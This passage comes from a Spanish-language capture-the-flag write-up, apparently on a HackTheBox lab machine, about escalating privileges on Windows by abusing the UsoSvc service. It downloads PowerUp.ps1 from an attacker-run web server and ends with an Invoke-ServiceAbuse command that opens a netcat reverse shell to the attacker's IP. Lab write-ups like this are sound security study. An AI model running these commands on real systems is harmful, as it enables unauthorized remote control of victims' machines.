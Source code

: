 > Este servicio es responsable de descargar, instalar y buscar actualizaciones en su computadora. [Acá la referencia](http://windowsbulletin.com/es/what-is-update-orchestrator-service/)

¿Pero de que me sirve saber esto? Bueno, hay un conjunto de herramientas (Github [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)), entre ellas una que podemos usar para validar que rutas de [escalar privilegios](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) tenemos (una ruta seria UsoSvc). Se me habia olvidado usarla antes, es **PowerUp.ps1**, usaremos una funcion que trae llamada **Invoke-AllChecks**.

> Info del mismo archivo sobre AllChecks: Runs all functions that check for various Windows privilege escalation opportunities.

Guiandome con un video de [s4vitar](https://www.youtube.com/watch?v=qEhXMZ1GYpE&t=3057) en el que explota en una maquina el mismo servicio **UsoSvc** realizaremos esto:

##### 1. Pues descargarnos PowerUp.ps1 :P
##### 2. Pasarlo a windows

~ Linux:

Levantamos un servidor web donde tengamos el archivo.

```bash
$ python -m SimpleHTTPServer
```

~ Windows:

Podriamos correr el exploit para pasarnos el **PowerUp.ps1** pero viendo el video aprendi que no era necesario, podemos hacerlo desde cmd simplemente moviendonos a la carpeta donde queremos el archivo y abriendo una sesión powershell.

```powershell
> powershell
PS > Invoke-WebRequest http://10.10.15.69:<puerto_que_levanta_python>/PowerUp.ps1 -o PowerUp.ps1 # -o de output, le ponemos el nombre de como queremos que quede el archivo
PS > Invoke-Module ./PowerUp.ps1
PS > Invoke-AllChecks | Out-File -Encoding ASCII checks.txt # Guardamos la ejecución del modulo en un archivo llamado checks.txt
```

Listo, validando el contenido de `checks.txt` tenemos:

Nuestro servicio **UsoSvc**.

![pscheckstxt1](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/remote/pscheckstxt1.png) 

![pscheckstxt2](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/remote/pscheckstxt2.png) 

Revisando este archivo no hay algo que resalte.

Pues ya solo nos queda ejecutar la instrucción que el propio **checks** nos brinda: `Invoke-ServiceAbuse -ServiceName 'UsoSvc'` pasándole el comando que queremos ejecutar. 

```powershell
PS > Invoke-ServiceAbuse -ServiceName 'UsoSvc' -Command "c:\Windows\TEMP\\nc.exe 10.10.15.69 443 -e cmd.exe"
```
